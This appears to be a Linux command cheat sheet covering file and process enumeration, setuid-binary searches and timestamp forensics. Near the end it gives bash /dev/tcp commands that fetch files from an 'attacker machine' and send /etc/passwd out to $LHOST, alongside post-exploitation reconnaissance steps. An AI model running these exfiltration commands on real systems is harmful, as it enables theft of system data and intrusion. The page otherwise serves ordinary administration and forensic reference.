 # list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

# process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

# find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

# find files belonging to user
```bash
find / -user username 2>/dev/null
```

# find files belonging to group
```bash
find / -group adm 2>/dev/null
```

# find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

# find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

# get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

# get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

# find all git repositories
```bash
find / -name .git 2>/dev/null
```

# get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

# download files with just bash 
```bash
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
On attacker machine, `nc -lvnp $LPORT < filename`
# exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

# find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```
